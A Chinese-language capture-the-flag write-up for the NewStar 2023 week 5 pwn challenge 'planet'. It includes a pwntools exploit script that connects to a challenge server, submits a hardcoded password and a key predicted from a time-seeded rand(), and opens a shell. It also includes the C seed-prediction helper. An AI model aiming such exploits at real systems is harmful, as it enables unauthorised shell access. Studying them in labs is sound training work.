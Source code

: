 ```yaml
---
title: newstar2023 week5 - planet
date: 2023/10/24 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - result predicting
excerpt: 通过模拟攻击获取后门函数的密钥，成功利用程序漏洞获得shell。
---
```


## 文件分析

下载`planet`, NX on, PIE on, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

有后门函数，虽然有随机数，但以时间为种子，直接模拟攻击；
命令限长，就用"$0"打开shell

官方wp有对链表的利用，不管了，能打通就是好exp

## EXPLOIT

```python
from pwn import *
def payload(delay:int):
    probe = process(['seedprobe2', str(delay)])
    key = probe.recvline(False)
    print(f'key to shell is: {key.decode()}')
    probe.close()

    sh = remote('node4.buuoj.cn', 25321)
    sh.sendlineafter(b':', b'secret_passwd_anti_bad_guys')
    sh.sendlineafter(b'>', b'Admin') # enter Admin func
    sh.sendlineafter(b'>', key)      # send calced key
    sh.interactive()
    #$0
    #cat flag

payload(5)
```

```c
// seedprobe2.c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>
#define STRLEN 31

int main(int argc, char **argv) {
    if (argc == 1) {
        puts("no time input!");
        return 0;
    } 
    int delay = -1;
    delay = atoi(argv[1]);
    if (delay == -1) {
        puts("invalid time input");
        return 0;
    }
    time_t init = time(NULL) + delay;
    srand(init);
    for (int i = 0; i < 55; i++)
        rand();
    char ret[STRLEN];
    for (int i = 0; i < STRLEN - 1; i++) 
        ret[i] = "abcdefghijklmnopqrstuvwxyz"[rand() % 26];
    ret[STRLEN - 1] = '\0';
    puts(ret);
    return 0;
}
```

## 第一次一血！

<img src="/assets/newstar2023/1stBlood.jpg" width="40%" title="好耶">

Done.
